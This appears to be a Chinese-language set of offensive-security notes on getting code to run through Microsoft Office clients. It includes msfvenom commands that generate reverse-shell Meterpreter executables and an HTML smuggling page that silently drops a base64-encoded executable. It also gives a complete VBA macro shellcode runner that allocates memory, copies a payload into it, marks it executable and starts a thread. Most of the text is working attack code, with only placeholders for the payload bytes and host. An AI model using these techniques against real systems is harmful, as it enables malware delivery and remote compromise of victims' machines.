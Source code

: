 # Microsoft Office Client Side Code Executtion
## Staged vs Non-staged Payloads
一般來說平常使用相關 Payload 框架，都會搭配可以使用弱點，也就是說弱點是拿來突破防禦機制，Payload可以說是維持存取的一種手段，維持存取的類型Payload分為
### 以下meterpreter為例:
#### Non-staged Payload (無階段性)
直接在記憶體中呼叫 執行完整的Payload
通常送過去的Payload 大小較大
Ex: windows/meterpreter_reverse_tcp
##### 產生一個 exe
```
msfvenom -p windows/meterpreter_reverse_tcp LHOST=x.x.x.x LPORT=x -f exe -o non-staged.exe
```
#### Staged Payload (有階段性)
只送一小段 Payload 做接應
較穩定，且有其他功能
Ex: windows/meterpreter/reverse_tcp
##### 產生一個 exe
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=x -f exe -o staged.exe
```
## HTML Smuggling 
想要在受害端機器上下載並執行相關的惡意程式，攻擊者會經常使用更謹慎的投放的方式。攻擊者可能將鏈接嵌入到電子郵件，當受害者閱讀電子郵件並存取網頁時，網頁自動下載惡意程式，這種行為就稱為HTML Smuggling
### Example
```
<html><body><script>	
function base64ToArrayBuffer(base64) { var binary_string = window.atob(base64); var len = binary_string.length; var bytes = new Uint8Array( len ); for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); } return bytes.buffer;}
var file = 'TVqQAAMAAAAEAAAA//8AALgAAAAAAA... (產生的base64 )
var data = base64ToArrayBuffer(file);
var blob = new Blob([data], {type: 'octet/stream'});
var fileName = 'staged.exe'; var a = document.createElement('a');
document.body.appendChild(a); a.style = 'display: none';
var url = window.URL.createObjectURL(blob);
a.href = url; a.download = fileName; a.click();
window.URL.revokeObjectURL(url);
</script></body></html>
```
## Executing Shellcode in Word
### Calling Win32 APIs from VBA
- C language
`BOOL GetUserNameA(LPSTR lpBuffer,LPDWORD pcbBuffer );`
- VBA Invoke
`Private Declare Function GetUserName Lib "advapi32.dll" Alias "GetUserNameA" (ByVal lpBuffer As String, ByRef nSize As Long) As Long`
##### https://www.pinvoke.net/default.aspx/advapi32.getusername
##### EXAMPLE
```
Sub MyMacro()
Dim res As Long
Dim MyBuff As String * 256
Dim MySize As Long
Dim strlen As Long
MySize = 256
res = GetUserName(MyBuff, MySize)
strlen = InStr(1, MyBuff, vbNullChar) - 1
MsgBox Left$(MyBuff, strlen)
End Sub
```
### VBA Shellcode Runner
#### Setting Memory Page Parameter
```
Public Enum protectFlags
PAGE_NOACCESS = &H1
PAGE_READONLY = &H2
PAGE_READWRITE = &H4
PAGE_WRITECOPY = &H8
PAGE_EXECUTE = &H10
PAGE_EXECUTE_READ = &H20
PAGE_EXECUTE_READWRITE = &H40
PAGE_EXECUTE_WRITECOPY = &H80
PAGE_GUARD = &H100
PAGE_NOCACHE = &H200
PAGE_WRITECOMBINE = &H400
End Enum
```
#### VirtualAlloc
##### C language
`LPVOID VirtualAlloc( LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect );`
##### VBA Invoke
`Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr`
#### RtlMoveMemory
##### C language
`VOID RtlMoveMemory(VOID UNALIGNED *Destination,VOID UNALIGNED *Source,SIZE_T Length);`
##### VBA Invoke
`Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr`
#### VirtualProtect
##### C language
`BOOL VirtualProtect(LPVOID lpAddress,SIZE_T dwSize,DWORD  flNewProtect,PDWORD lpflOldProtect);`
##### VBA Invoke
`Private Declare PtrSafe Function VirtualProtect Lib "kernel32" (lpAddress As LongPtr, ByVal dwSize As LongPtr, ByVal flNewProtect As LongPtr, lpflOldProtect As LongPtr) As LongPtr`
#### CreateThread
##### C language
`HANDLE CreateThread(LPSECURITY_ATTRIBUTES lpThreadAttributes, SIZE_T dwStackSize, LPTHREAD_START_ROUTINE lpStartAddress, LPVOID lpParameter, DWORD dwCreationFlags, LPDWORD lpThreadId);`
##### VBA Invoke
`Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr`
#### VBA EXMAPLE CODE
```
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function VirtualProtect Lib "KERNEL32" (ByVal memAddress As LongPtr, ByVal lengthInBytes As LongPtr, ByVal newProtect As protectFlags, ByRef outOldProtect As protectFlags) As Long
Public Enum protectFlags
    PAGE_NOACCESS = &H1
    PAGE_READONLY = &H2
    PAGE_READWRITE = &H4
    PAGE_WRITECOPY = &H8
    PAGE_EXECUTE = &H10
    PAGE_EXECUTE_READ = &H20
    PAGE_EXECUTE_READWRITE = &H40
    PAGE_EXECUTE_WRITECOPY = &H80
    PAGE_GUARD = &H100
    PAGE_NOCACHE = &H200
    PAGE_WRITECOMBINE = &H400
End Enum

Sub MyMacro()
Dim buf As Variant
Dim addr As LongPtr
Dim counter As Long
Dim data As Long
Dim res As Long

Dim originalProtection As protectFlags
Dim vpresult As Long


buf = Array(.......)

addr = VirtualAlloc(0, UBound(buf), &H3000, PAGE_READWRITE)

For counter = LBound(buf) To UBound(buf)
data = buf(counter)
res = RtlMoveMemory(addr + counter, data, 1)
Next counter

vpresult = VirtualProtect(addr, 3, PAGE_EXECUTE_READ, originalProtection)
res = CreateThread(0, 0, addr, 0, 0, 0)

End Sub
```
